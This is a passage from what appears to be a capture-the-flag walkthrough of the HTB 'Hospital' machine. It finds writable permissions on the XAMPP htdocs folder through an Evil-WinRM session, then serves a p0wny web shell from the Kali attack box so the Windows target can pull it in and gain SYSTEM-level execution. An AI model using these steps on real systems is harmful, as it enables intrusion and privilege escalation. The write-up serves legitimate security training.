 <img src="/assets/img/2024-hospital/rpc.png" alt="rpc.png" class="auto-resize">

This reveals the presence of a local administrator account.

Enumerating the directory structure further reveals the presence of  the `xampp\htdocs` folder.

*** A note on `xampp\htdocs`***
- The `xampp\htdocs` folder is a directory used by XAMPP, a popular open-source cross-platform web server solution stack package. XAMPP stands for Cross-Platform (X), Apache (A), MariaDB (M), PHP (P), and Perl (P). It is designed to be an easy-to-install Apache distribution containing MariaDB, PHP, and Perl, making it a convenient tool for developers to create and test web applications on their local machines before deploying them to a live server.*
- If found on a machine in a production environment or accessible over a network, it could be a security concern. XAMPP is not designed with security in mind for production use; its default configuration is meant for development purposes only, with minimal security settings. An improperly secured XAMPP installation accessible over a network can be exploited by malicious actors.


The permissions on the location reveal any user can read and execute to the location, and `NT Authority`  has full control.

A malicious file uploaded to the location could theoretically be executed  in the context of `NT Authority`.

```bash
*Evil-WinRM* PS C:\xampp\htdocs> Get-Acl | Format-List

Path   : Microsoft.PowerShell.Core\FileSystem::C:\xampp\htdocs
Owner  : BUILTIN\Administrators
Group  : HOSPITAL\Domain Users
Access : NT AUTHORITY\LOCAL SERVICE Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
         BUILTIN\Users Allow  AppendData
         BUILTIN\Users Allow  CreateFiles
         CREATOR OWNER Allow  268435456
```

The shell used earlier was re-used here. First it was served locally on the attack machine and then retrieved on the Windows target within the potentially vulnerable `htdocs` folder.

```bash
──(kali㉿kali)-[~/…/htb-machines/hospital/exploits/p0wny-shell]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
